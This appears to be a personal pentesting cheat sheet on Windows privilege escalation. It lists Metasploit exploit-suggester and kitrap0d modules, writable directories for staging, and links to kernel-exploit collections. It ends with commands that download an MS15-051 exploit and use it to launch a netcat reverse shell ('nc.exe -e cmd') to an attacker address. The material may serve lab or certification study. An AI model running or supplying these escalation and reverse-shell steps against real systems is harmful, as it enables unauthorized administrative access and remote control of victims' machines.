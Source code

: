 ```
msf5 post(multi/recon/local_exploit_suggester) > run
```

=> use exploit/windows/local/ms10_015_kitrap0d

# 
https://github.com/51x/WHP
List of CVE


# Powershell version
```
powershell -Command "$PSVersionTable.PSVersion"
```

## Writable dir

- C:\Users\Public\Documents : Windows 2008 and 2012 
- C:\Documents and Settings\All Users\Documents :  Windows 2003 
- c:\wamp64\www\
- C:\Windows\Temp
- C:\Users\Public\
- C:\temp
- c:\inetpub\temps
- c:\inetpub\wwwroot


## Offensive BinSploit
https://github.com/offensive-security/exploitdb-bin-sploits


## Exploit choice

https://github.com/SecWiki/windows-kernel-exploits/raw/master/win-exp-suggester/2017-06-14-mssb.xls


## Workshop
- Win32 PE workshop : https://github.com/sagishahar/lpeworkshop

- BeRoot project : https://github.com/AlessandroZ/BeRoot

## Kernel exploits

    https://github.com/SecWiki/windows-kernel-exploits


## MS15-051 : nice one !

```
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
MS15-051-KB3045171

wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
Exploit
/priv.exe "c:\windows\temp\nc.exe -e cmd 10.10.14.23 1234"

cp  /usr/share/windows-binaries/nc.exe .
```
